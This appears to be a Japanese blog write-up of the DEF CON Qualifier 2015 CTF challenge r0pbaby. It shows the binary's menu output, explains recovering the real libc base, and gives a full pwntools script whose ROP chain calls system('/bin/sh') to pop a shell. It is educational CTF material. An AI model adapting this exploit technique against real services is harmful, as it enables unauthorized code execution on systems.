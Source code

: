 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/07/defcon-qualifier-ctf-2015-r0pbaby/
date: 2016-01-07T00:49:08+09:00
tags: [ "ctf", "writeup", "pwn", "rop" ]
---
```


# DEF CON Qualifier 2015: r0pbaby

## [Baby's First 1: r0pbaby](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)

>   r0pbaby\_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436 [Download]()

起動すると以下のようにmenuが現れ色々と親切にしてくれる問題。
ただしその分asmは読みにくい。

``` sh
$ ./r0pbaby

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 1
libc.so.6: 0x00007EFE0BB324D0
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2
Enter symbol: system
Symbol system: 0x00007EFE0B3DA890
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 8
DDDDDDDD4
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Exiting.
```

ただし、表示されるのは中で`dlopen`をして得られた`libc.so.6`のアドレスであるため、これの上に飛ぼうとするとsegvする。
`dlopen`されたlibcと本来のlibcのアドレスの差は固定のようなので、これを元に本来のlibcのアドレスを求める。

`libc.so.6`が与えられない[^1]が、おそらくこれは表示させたシンボルのアドレスから[libcdb.com](http://libcdb.com/)などでlibcを検索すればよい。
手元で動かしたものから検索しても引っかからなかったが、これはosがarchであるから登録がなされていないのだとして無視した。[^2]

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
# p = process('./r0pbaby')
p = remote('localhost', 8022)

p.sendlineafter(': ', '1')
p.recvuntil(': ')

offset = 0x7974d0 # difference between dlopen-ed libc and original libc, from (attached) gdb
libc = int(p.recvline(keepends=False), 16) - offset

# on my /usr/lib/libc.so.6
pop_rdi_ret = 0x21012
system = 0x3f890
bin_sh = 0x1653b8

payload = ''
payload += p64(0) # pop ebp
payload += p64(libc + pop_rdi_ret) # ret
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendlineafter(': ', '3')
p.sendlineafter(': ', str(len(payload)))
p.send(payload)

p.sendline('4')

p.sendline('ls')
p.interactive()
```

[^1]: ように見える
[^2]: 詳しくないので正直少し不安
